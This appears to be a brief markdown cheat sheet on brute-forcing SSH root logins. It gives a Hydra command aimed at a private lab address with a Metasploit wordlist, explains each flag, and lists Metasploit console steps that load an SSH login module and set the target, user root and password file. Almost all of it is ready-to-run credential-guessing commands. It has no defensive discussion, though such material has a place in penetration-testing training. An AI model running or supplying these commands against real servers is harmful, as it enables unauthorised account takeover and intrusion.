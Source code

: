 ## Hydra
```bash
hydra -l root -P usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.241.136:22 -t 4 -V
```
- ***hydra*** -l root -P usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.241.136:22 -t 4 -V -> program name
- hydra ***-l root*** -P usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.241.136:22 -t 4 -V -> user to be attacked
- hydra -l root ***-P usr/share/wordlists/metasploit/unix_passwords.tx***t ssh://192.168.241.136:22 -t 4 -V -> password list
- hydra -l root -P usr/share/wordlists/metasploit/unix_passwords.txt ***ssh://192.168.241.136***:22 -t 4 -V -> specify target
- hydra -l root -P usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.241.136***:22*** -t 4 -V -> port
- hydra -l root -P usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.241.136:22 ***-t 4*** -V -> number of threads
- hydra -l root -P usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.241.136:22 -t 4 ***-V*** -> verbose (= show realtime output)

## Metasploit
```bash
search ssh login
```
```bash
use 11
```
```bash
options
set RHOST 192.168.241.136
set username root
set pass_file usr/share/wordlists/metasploit/unix_passwords.txt
```